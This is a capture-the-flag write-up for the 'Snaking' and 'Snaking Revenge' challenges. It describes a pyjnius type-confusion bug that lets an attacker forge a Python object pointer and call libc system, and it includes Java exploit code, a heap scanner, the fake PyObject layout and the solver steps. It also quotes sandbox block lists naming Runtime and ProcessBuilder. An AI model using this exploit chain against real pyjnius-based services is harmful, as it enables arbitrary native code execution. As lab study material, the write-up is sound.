



## Metadata

- **CTF:** SAS CTF 2026 Quals
- **Task:** Snaking Revenge
- **Author team:** RubiyaLab Expeditions
- **CTFtime:** <https://ctftime.org/writeup/40862>
- **Original writeup:** <https://www.andsopwn.com/ctf/sas26_snaking/>

---
Original Blog Link: [snaking](<https://www.andsopwn.com/ctf/sas26_snaking/>)

I solved `snaking` first, then looked at `snaking revenge`. I wrote both up here.

The bug is in the Python/Java boundary of pyjnius. At first I treated the challenge like a Java sandbox escape, because the server asks for a JAR. But the program literally prints the libc base address, so the direction changed pretty quickly: use a pyjnius object confusion to reach native code execution.

## Overview

The wrapper accepts a user-supplied JAR, puts it in `CLASSPATH`, and runs `[main.py](http://main.py)`.

Inside `[main.py](http://main.py)`, pyjnius loads classes such as `requester.HttpClient` and `requester.Request$Builder` from that JAR. The call I cared about was this:

```python  
client_builder.proxyAuthenticator(  
ProxyAuthenticator.from_creds(args.proxy.username, args.proxy.password)  
)  
```

`ProxyAuthenticator` is a Python class exported as a Java interface using pyjnius. If the proxy URL contains a username and password, a `PythonJavaClass` object is passed into a Java method from my JAR.

Component-wise, the challenge looks like this:

```mermaid  
flowchart LR  
user[[solver.py](http://solver.py)] -->|base64 zlib JAR| wrapper[[wrapper.py](http://wrapper.py)]  
user -->|url / proxy| wrapper  
wrapper -->|writes requester.jar| jar["/tmp/.../requester.jar"]  
wrapper -->|CLASSPATH=requester.jar| main[[main.py](http://main.py)]  
main -->|autoclass requester.*| attacker[attacker-controlled Java classes]  
main -->|proxy creds present| pycls[ProxyAuthenticator PythonJavaClass]  
pycls -->|pyjnius argument conversion| builder[HttpClient.Builder.proxyAuthenticator]  
builder --> exploit[Exploit.run]  
```

After that, the exploit chain was:

```text  
PythonJavaClass argument type check missing  
-> Java dynamic proxy passed as FakeProxy  
-> fake field layout over java.lang.reflect.Proxy  
-> NativeInvocationHandler.ptr read/write  
-> scan Java heap through fake long fields  
-> find DirectByteBuffer.address  
-> place fake PyObject in native direct-buffer memory  
-> fake PyTypeObject.tp_getattro = libc.system  
-> trigger proxy toString()  
-> py_obj.invoke attribute lookup  
-> system(" cat f*")  
```

For `snaking revenge`, the patch tightens the sandbox, but it does not fix the pyjnius conversion bug. I only needed a cleaner Java payload, a wider heap scan, and one extra direct buffer tag.

## Part 1: snaking

### Getting into the callback

This path only runs when the proxy URL contains credentials:

```text  
http://user:[[email protected]](https://ctftime.org/cdn-cgi/l/email-protection):9  
```

Without `user:pass`, `[main.py](http://main.py)` never calls `proxyAuthenticator()`.

The Python side defines the authenticator as a `PythonJavaClass`:

```python  
class ProxyAuthenticator(PythonJavaClass):  
__javainterfaces__ = ['requester.ProxyAuthenticator']

@classmethod  
def from_creds(cls, username: str | None = None, password: str | None = None) -> 'ProxyAuthenticator':  
self = cls.__new__(cls)  
self._username = username  
self._password = password  
return self

@java_method('(Lrequester/Request;)V')  
def authenticate(self, request) -> None:  
print("todo...")  
```

Since my JAR defines `requester.HttpClient`, I also control the builder method that receives this object.

I expected this method to use the declared interface:

```java  
public Builder proxyAuthenticator(ProxyAuthenticator auth) {  
...  
}  
```

But pyjnius lets me write this instead:

```java  
public Builder proxyAuthenticator(FakeProxy auth) {  
Exploit.run(auth);  
return this;  
}  
```

This was the bug I needed.

### pyjnius argument conversion

The useful code is `populate_args()` in `jnius_conversion.pxi`.

For normal Java objects, pyjnius checks whether the object is assignable to the Java parameter type:

```cython  
elif isinstance(py_arg, JavaClass):  
jc = py_arg  
check_assignable_from(j_env, jc, argtype[1:-1])  
j_args[index].l = jc.j_self.obj  
```

For `PythonJavaClass`, it does not:

```cython  
elif isinstance(py_arg, PythonJavaClass):  
pc = py_arg  
jc = pc.j_self  
if jc is None:  
pc._init_j_self_ptr()  
jc = pc.j_self  
j_args[index].l = jc.j_self.obj  
```

That missing check is the whole bug.

I tried a normal Java object type confusion first, by making another callback receive some fake request type. That fails because the argument is a normal `JavaClass`, so `check_assignable_from()` catches it.

But `ProxyAuthenticator` is a `PythonJavaClass`. That branch just extracts the backing Java proxy object and passes it as-is.

At that point, my Java code is looking at a real object whose runtime class is similar to:

```text  
jdk.proxy1.$Proxy0 extends java.lang.reflect.Proxy  
```

but the method signature says:

```text  
requester.FakeProxy  
```

### Turning the confusion into ptr access

Java dynamic proxy objects extend `java.lang.reflect.Proxy`, which contains:

```java  
protected InvocationHandler h;  
```

pyjnius stores an `org.jnius.NativeInvocationHandler` in that field. Its source is roughly:

```java  
public class NativeInvocationHandler implements InvocationHandler {  
private long ptr;

public NativeInvocationHandler(long ptr) {  
this.ptr = ptr;  
}

public Object invoke(Object proxy, Method method, Object[] args) {  
return invoke0(proxy, method, args);  
}

native Object invoke0(Object proxy, Method method, Object[] args);  
}  
```

Direct access to `org.jnius.NativeInvocationHandler` is blocked by `jnius.security`, but I do not need to name that class.

I can define fake classes with the same first fields:

```java  
public class FakeNative {  
public long ptr;  
}

public class FakeProxy {  
public FakeNative h;  
public long qword0;  
public long qword1;  
...  
}  
```

The confusing part is that there is only one real object. Java just gives me the wrong static view of it:



Because Java believes `auth` is a `FakeProxy`, `auth.h` reads the field at the offset of `FakeProxy.h`. That offset lines up with `java.lang.reflect.Proxy.h` in the real object.

The returned object is actually a `NativeInvocationHandler`, but Java sees it as `FakeNative`. Then `auth.h.ptr` reads and writes the real `NativeInvocationHandler.ptr`.

That gives this small primitive:

```java  
FakeNative handler = auth.h;  
long oldPtr = handler.ptr;  
handler.ptr = newPtr;  
```

`oldPtr` is the original Python object pointer for the `ProxyAuthenticator` instance. `newPtr` can be any address I want pyjnius to treat as a Python object.

### What ptr is used for

The native callback path in `jnius_proxy.pxi` reads the `ptr` field and casts it into a Python object:

```cython  
cdef jobject py_invoke0(JNIEnv *j_env, jobject j_this, jobject j_proxy,  
jobject j_method, jobjectArray args) except * with gil:  
...  
ptrField = j_env[0].GetFieldID(j_env,  
j_env[0].GetObjectClass(j_env, j_this), "ptr", "J")  
jptr = j_env[0].GetLongField(j_env, j_this, ptrField)  
py_obj = <object><void *>jptr  
...  
ret = py_obj.invoke(method, *py_args)  
```

No sanity check is done on `jptr`.

At this point I needed native memory that I could write from Java. Once the fake object is ready, the callback path is short:



### Finding writable native memory

`ByteBuffer.allocateDirect()` is useful because it allocates native backing memory and lets Java write to it:

```java  
ByteBuffer buf = ByteBuffer.allocateDirect(0x1337);  
buf.order(ByteOrder.LITTLE_ENDIAN);  
```

Java can write controlled qwords into this buffer:

```java  
buf.putLong(offset, value);  
```

CPython can later read the same memory as normal native memory if I know the backing address.

I first tried the normal ways to ask Java for the address:

```java  
((sun.nio.ch.DirectBuffer) buf).address()  
sun.misc.Unsafe.getUnsafe()  
jdk.internal.misc.Unsafe.getUnsafe()  
jdk.internal.access.SharedSecrets.getJavaNioAccess().getBufferAddress(buf)  
buf.getClass().getMethod("address").invoke(buf)  
```

I ended up reusing the type confusion as a very ugly heap scanner.

`FakeProxy` contains thousands of fake `long` fields:

```java  
public class FakeProxy {  
public FakeNative h;  
public long qword0;  
public long qword1;  
...  
public long qword6999;  
}  
```

The real proxy object is much smaller than that. Reading those fields walks past the real object and interprets nearby Java heap memory as qwords.

Ugly, but enough to find a nearby `DirectByteBuffer` object.

### Identifying DirectByteBuffer

Locally, on the same Java 21 layout, the base `java.nio.Buffer` fields looked like this:

```text  
java.nio.Buffer  
mark int offset 12  
address long offset 16  
position int offset 24  
limit int offset 28  
capacity int offset 32  
```

For:

```java  
ByteBuffer.allocateDirect(0x1337);  
```

the object contains:

```text  
mark = -1  
address = native backing memory address  
position = 0  
limit = 0x1337  
capacity = 0x1337  
```

I searched for that tagged layout:

```java  
if (Scanner.addr == 0 &&  
p.qword[i - 4] == 1L &&  
(p.qword[i - 3] >>> 32) == 0xffffffffL &&  
(p.qword[i - 1] >>> 32) == 0x1337L &&  
(p.qword[i] & 0xffffffffL) == 0x1337L) {  
Scanner.addr = p.qword[i - 2];  
}  
```

`p.qword[i - 2]` is the `address` field.

That was enough to recover the direct buffer backing address from Java, without calling any blocked internal API.

### Forging a PyObject

CPython objects begin with:

```c  
typedef struct _object {  
Py_ssize_t ob_refcnt;  
PyTypeObject *ob_type;  
} PyObject;  
```

I only filled the fields needed to survive until attribute lookup. The fake object points to a fake type object, and that fake type object has `tp_getattro = system`.

On the target Python 3.12 build, `tp_getattro` was at offset `144` inside `PyTypeObject`.

The direct buffer memory is laid out like this:

```text  
fakeObj + 0x00: ob_refcnt, also command bytes  
fakeObj + 0x08: ob_type = fakeObj + 0x100

fakeObj + 0x100: fake PyTypeObject  
fakeObj + 0x100 + 144: tp_getattro = libc.system  
```

Java writes it like this:

```java  
private static void fakeObject(ByteBuffer buf, long fakeObj, long system) {  
long fakeType = fakeObj + 0x100;

buf.putLong(0, 0x002a66207461631fL);  
buf.putLong(8, fakeType);  
for (int i = 0x10; i < 0x200; i += 8) {  
buf.putLong(i, 0);  
}  
buf.putLong(0x100 + 144, system);  
}  
```

The first qword is both `ob_refcnt` and the command string.

`0x002a66207461631f` is little endian:

```text  
1f 63 61 74 20 66 2a 00  
```

At first it is:

```text  
\x1fcat f*  
```

When Cython executes:

```cython  
py_obj = <object><void *>jptr  
```

it increments the reference count. Since `ob_refcnt` is the first qword, the first byte increases by one:

```text  
1f 63 61 74 20 66 2a 00  
20 63 61 74 20 66 2a 00  
```

After that one `INCREF`, the fake object starts with:

```text  
cat f*  
```

The leading space is harmless for `/bin/sh -c`.

### Triggering system

After replacing `NativeInvocationHandler.ptr`, I trigger any proxy method:

```java  
handler.ptr = fakeObj;  
((Object) auth).toString();  
```

The dynamic proxy dispatches to `NativeInvocationHandler.invoke()`, which calls the native `invoke0()` path. pyjnius casts `ptr` to `py_obj` and then runs:

```cython  
ret = py_obj.invoke(method, *py_args)  
```

Before calling anything, CPython has to resolve the `invoke` attribute:

```c  
Py_TYPE(py_obj)->tp_getattro(py_obj, "invoke")  
```

The fake type object has:

```text  
tp_getattro = system  
```

The function pointer type does not match, but that is fine for this one call on x86_64 SysV. CPython passes the fake object pointer as the first argument, and `system()` interprets it as a `char *`.

The call is basically:

```c  
system(fakeObj);  
```

In practice, that becomes:

```sh  
system(" cat f*")  
```

The process usually dies after printing the flag because `system()` returns an `int`, while CPython expects a `PyObject *`. The flag is already out by then.

### Final exploit

`[solve.py](http://solve.py)` only keeps the remote path. It builds the JAR, sends it, parses the gift, sends `system`, and prints the flag.

The wrapper only reads three input lines:

```text  
JAR source:  
\--url:  
\--proxy:  
```

but the child process inherits the same stdin. I used that to send one more line after the proxy URL:

```text  
base64(zlib(jar))  
<http://example.com/>  
http://user:[[email protected]](https://ctftime.org/cdn-cgi/l/email-protection):9  
<computed system address>  
```

The program prints the libc base:

```python  
def gift():  
""" Should've brute-forced 12 bits, but I'm feeling nice today :P """  
with open("/proc/self/maps", "r") as f:  
for line in f:  
if "libc.so.6" in line:  
print("Gift:", f'0x{line.split("-")[0]}')  
break  
```

On the target libc, `system` was  
```text  
system@@GLIBC_2.2.5 = 0x58750  
```

```python  
system = libc_base + 0x58750  
```

Output:

```text  
$ python3 [solve.py](http://solve.py)  
SAS{c0n7r0ll1n9_py7h0n_h34p_7hr0u9h_j4v4_15_50_4nn0y1n9_4hhh}  
```

## Part 2: snaking revenge

### What changed

`snaking revenge` hardens the Java-side sandbox.

The new `jnius.security` blocks many more packages, including:

```text  
jdk.  
sun.  
java.lang.reflect.  
java.lang.foreign.  
java.lang.invoke.  
java.lang.instrument.  
java.lang.ProcessBuilder  
java.lang.Runtime  
com.sun.  
org.graalvm.  
```

It also adds `package.definition` rules for core Java packages and `requester.`.

The JVM also gets:

```python  
f'--enable-native-access={urandom(16).hex()}'  
```

It only prints a warning about an unknown module. I was not using Java FFM or native-access APIs, so it did not affect the exploit.

For this exploit, only one thing mattered: the pyjnius `PythonJavaClass` conversion bug stayed there.

### Fixing the payload

The old primitive still works:

```text  
PythonJavaClass -> FakeProxy -> FakeNative.ptr -> fake PyObject  
```

The revenge delta was only around the payload stability:



I only had to change three things for revenge.

First, I removed Java string concatenation from debug output. On Java 21, `"a" + b` goes through `invokedynamic` and `java.lang.invoke.StringConcatFactory`. Since revenge blocks `java.lang.invoke.`, even harmless debug output can crash the payload.

Second, I widened the heap scan. The original scan was:

```python  
QWORDS = 7000  
SCAN_FROM = 0  
SCAN_TO = 6500  
```

I changed it to  
```python  
QWORDS = 24000  
SCAN_FROM = 0  
SCAN_TO = 22000  
```

Third, I added a second direct buffer tag:

```java  
ByteBuffer buf = ByteBuffer.allocateDirect(0x1337);  
ByteBuffer pad = ByteBuffer.allocateDirect(0x1441);  
```

The scanner accepts either tag:

```java  
// 0x1337 tag  
(p.qword[i - 1] >>> 32) == 0x1337L &&  
(p.qword[i] & 0xffffffffL) == 0x1337L

// 0x1441 tag  
(p.qword[i - 1] >>> 32) == 0x1441L &&  
(p.qword[i] & 0xffffffffL) == 0x1441L  
```

and the fake object is written to both buffers:

```java  
fakeObject(buf, fakeObj, system);  
fakeObject(pad, fakeObj, system);  
```

Then whichever direct buffer object gets found, the selected native address contains the fake object.

### Final revenge exploit

The revenge solver stays almost identical to the original one:

1\. Build a JAR with attacker-controlled `requester.*` classes.  
2\. Send URL and proxy credentials to hit `proxyAuthenticator()`.  
3\. Parse `Gift: 0x...`.  
4\. Send `libc_base + 0x58750`.  
5\. Trigger pyjnius callback through the forged `ptr`.

Output:

```text  
$ python3 [solve_revenge.py](http://solve_revenge.py)  
SAS{c0n7r0ll1n9_py7h0n_h34p_7hr0u9h_j4v4_15_50_4nn0y1n9_4hhh_...y34h_1_m34n_c0n7r0ll1n9_n07_5l0pp1n9}  
```

## Appendix

### Challenge layout

Original challenge files:

```text  
Dockerfile  
[wrapper.py](http://wrapper.py)  
[main.py](http://main.py)  
restrict.policy  
jnius.security  
flag.txt  
[run.sh](http://run.sh)  
```

`[wrapper.py](http://wrapper.py)` reads three lines:

```python  
jar_source = decompress(b64decode(input("JAR source: ").strip().encode()))  
...  
url_arg = input("--url: ").strip()  
proxy_arg = input("--proxy: ").strip()  
```

It writes the decoded JAR to a temporary `requester.jar`, puts that in `CLASSPATH`, and runs `[main.py](http://main.py)`:

```python  
proc = run(  
["python3", "[main.py](http://main.py)", "--url", url_arg] + (["--proxy", proxy_arg] if proxy_arg else []),  
stderr=STDOUT,  
env=os.environ.copy() | {"CLASSPATH": jar_path},  
check=True  
)  
```

That means I control Java classes under names like:

```text  
requester.HttpClient  
requester.Request  
requester.Response  
requester.ProxyAuthenticator  
```

`[main.py](http://main.py)` loads those classes through pyjnius:

```python  
class Java:  
Proxy = autoclass("java.net.Proxy")  
ProxyType = autoclass("java.net.Proxy$Type")  
InetSocketAddress = autoclass("java.net.InetSocketAddress")  
HttpClient = autoclass("requester.HttpClient")  
RequestBuilder = autoclass("requester.Request$Builder")  
```

The JVM is started with a security manager and an empty policy:

```python  
jnius_config.add_options(  
'-Djava.security.manager',  
'-Djava.security.policy==restrict.policy',  
'-Djava.security.properties=jnius.security',  
'-Xbootclasspath/a:/usr/local/lib/python3.12/dist-packages/jnius/src',  
'-Xmx256m'  
)  
```

`restrict.policy`:

```text  
grant {

};  
```

### Java sandbox dead ends

At first, I tried the obvious thing: read `/app/flag.txt` from Java.

```java  
Files.readAllBytes(Paths.get("/app/flag.txt"));  
```

That fails with:

```text  
AccessControlException: access denied ("java.io.FilePermission" "/app/flag.txt" "read")  
```

I also checked the usual Java escape surfaces:

```text  
Runtime.exec  
ProcessBuilder  
Unsafe  
reflection  
DirectBuffer.address()  
SharedSecrets  
```

They are blocked or made awkward by the security settings. More importantly, the libc leak makes the pure Java sandbox direction look wrong.

### Revenge patch notes

The revenge version changes the security properties and adds one JVM option:

The new `jnius.security` contains:

```text  
package.access=jdk.,\  
sun.,\  
java.lang.reflect.,\  
java.lang.foreign.,\  
java.lang.invoke.,\  
java.lang.instrument.,\  
java.lang.ProcessBuilder,\  
java.lang.Runtime,\  
java.rmi.,\  
javax.naming.,\  
com.sun.,\  
javax.script.,\  
org.graalvm.  
```

and:

```text  
package.definition=java.,\  
javax.,\  
sun.,\  
jdk.,\  
com.sun.,\  
org.jnius.,\  
jnius.,\  
requester.  
```

The `package.definition=requester.` line looks scary because the uploaded JAR defines `requester.*`, but the classes are still loaded from the supplied JAR in the actual challenge flow. The exploit does not rely on defining protected JDK or pyjnius packages anyway.

## Closing notes

My first instinct was to attack the Java sandbox. The challenge lets us provide a JAR, so it really does feel like a classloader/security-manager puzzle.

But the libc leak changes the story. The actual bug is that pyjnius trusts a `PythonJavaClass` proxy too much when passing it into a Java method. That gives a Java-level type confusion, and from there it becomes a Python object pointer forgery.

`snaking revenge` blocks some noisy Java tricks and catches string concatenation through `java.lang.invoke`, but it leaves the core pyjnius conversion bug untouched.
